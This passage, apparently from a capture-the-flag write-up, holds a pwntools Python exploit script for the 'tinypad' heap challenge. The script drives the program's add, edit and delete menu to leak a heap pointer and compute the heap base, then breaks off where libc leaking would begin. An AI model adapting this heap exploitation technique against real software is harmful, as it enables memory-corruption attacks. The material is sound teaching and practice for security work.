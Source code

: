 
Specific use of the script is as follows


```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
tinypad = ELF("./tinypad")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
    libc = ELF('./libc.so.6')
else:
    p = process("./tinypad")
    libc = ELF('./libc.so.6')
    main_arena_offset = 0x3c4b20
log.info('PID: ' + str(proc.pidof(p)[0]))


def add(size, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))


def run():
    p.recvuntil(
        '  ============================================================================\n\n'
    )
    # 1. leak heap base
    add(0x70, 'a' * 8)  # idx 0
    add(0x70, 'b' * 8)  # idx 1
    add(0x100, 'c' * 8)  # idx 2

    delete(2)  # delete idx 1
    delete(1)  # delete idx 0, idx 0 point to idx 1
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
    heap_base = u64(data.ljust(8, '\x00')) - 0x80
    log.success('get heap base: ' + hex(heap_base))

    # 2. leak libc base
    # this will trigger malloc_consolidate
```
